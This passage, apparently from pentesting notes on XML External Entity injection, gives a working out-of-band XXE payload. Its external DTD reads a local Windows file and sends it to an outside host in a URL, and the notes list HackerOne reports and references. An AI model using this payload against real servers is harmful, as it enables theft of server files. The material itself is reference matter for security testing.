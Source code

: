 ```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://hackburk.haxxson.se/quel/dtd.xml">
%sp;
%param1;
%exfil;
]>
```

dtd.xml contains the following:

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://hackburk.haxxson.se/?%data;'>">

```
The vulnerable server will thus retreive the dtd.xml, then parse it, and then make a request to haxxon.se and include the file in the data parameter. It will be encoded aswell so it will make a correct request.




### Examples

* XXE from uploading Powerpoint - https://hackerone.com/reports/334488
* XXE in SOAP request - https://hackerone.com/reports/36450
* XXE in SVG file upload - https://quanyang.github.io/x-ctf-finals-2016-john-slick-web-25/
* XXE in PNG/PDF upload

### Exfiltrate data through URL

https://blog.bugcrowd.com/advice-from-a-researcher-xxe/

### References

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html

